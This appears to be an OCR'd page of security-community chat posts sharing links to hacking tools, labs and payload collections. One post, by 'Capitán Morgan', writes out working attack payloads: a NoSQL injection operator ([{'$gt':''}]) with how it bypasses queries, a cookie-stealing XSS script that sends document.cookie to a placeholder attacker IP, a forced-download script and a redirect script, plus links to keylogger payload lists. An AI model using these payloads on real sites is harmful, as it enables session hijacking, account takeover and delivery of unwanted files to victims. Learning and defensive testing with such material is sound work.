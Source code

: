 ## noob sec
https://github.com/stuxnet999/MemLabs

---
## logic
Just finished updating enum4linux to remove some of the errors and add color coding. Open to suggestions.
https://github.com/logicsec/enum4linux

---
## Capitán Morgan
NoSQL Payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20injecti
https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.htmlhttps://www.owasp.org/index.php/Testing_for_NoSQL_injection
A common example of a NoSQL injection would be injecting something like:
[{"$gt":""}]. This JSON object is basically saying that the operator ($gt) is greater
than NULL (""). Since logically everything is greater than NULL, the JSON object
becomes a true statement, allowing us to bypass or inject into NoSQL queries. This
would be equivalent to [' or 1=1--] in the SQL injection world. In MongoDB, we can
use one of the following conditional operators:
(>) greater than - $gt
(<) less than - $lt
(>=) greater than equal to - $gte
(<= ) less than equal to - $lte
https://github.com/frohoff/ysoserial
Cookie Stealing XSS: <script>document.write('<img src="http://<Your>)IP>/Stealer.php?cookie=' %2B document.cookie %2B '" />');</script>
Forcing the Download of a File: <script>var link =
document.createElement('a'); link.href =
'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = '';
document.body.appendChild(link); link.click();</script>
Redirecting User: <script>window.location =
"https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>
Other Scripts to Enable Key Loggers, Take Pictures, and More
http://www.xss-payloads.com/payloads-list.html?c#category=capture
https://raw.githubusercontent.com/cyberspacekittens/XSS/master/XSS2.png
https://github.com/foospidy/payloads/tree/master/other/xss
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
https://xsshunter.com/
https://en.wikipedia.org/wiki/String_interpolation

---
## d34tH5tr0k3
https://clickallthethings.wordpress.com/2020/04/06/covid-19-excel-4-0-macros-and-sandbox-detection/

---
## g3n0typ3x4d
Free bookz from springer publisher https://docs.google.com/spreadsheets/d/1HzdumNltTj2SHmCv3SRdoub8SvpIEn75fa4Q23x0keU/htmlview

---